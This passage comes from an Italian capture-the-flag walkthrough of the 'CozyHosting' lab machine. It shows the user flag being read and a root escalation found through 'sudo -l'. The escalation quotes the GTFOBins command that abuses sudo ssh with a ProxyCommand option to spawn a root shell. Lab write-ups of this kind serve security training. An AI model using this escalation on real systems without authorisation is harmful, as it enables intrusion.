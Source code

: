 ```shell-session

  System load:           0.0
  Usage of /:            56.5% of 5.42GB
  Memory usage:          37%
  Swap usage:            0%
  Processes:             239
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.230
  IPv6 address for eth0: dead:beef::250:56ff:feb9:bb1d


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 29
```

e siamo dentro !

e abbiamo la nostra user_flag

```shell-session
josh@cozyhosting:~$ cat user.txt
af4625e9d14fa724a80a4470d2fa2a80
```

## josh --> root

Come sempre una delle prime cosa da fare è vedere se abbiamo eseguire qualcosa con i privilegi da root

```shell-session
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Se ci rechiamo su [GTFOBINS](https://gtfobins.github.io/#ssh) e cerchiamo per il binario ssh troviamo questo 

```
## Sudo[](https://gtfobins.github.io/gtfobins/ssh/#sudo)

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- Spawn interactive root shell through ProxyCommand option.
    
    ```
    sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
    ```
```
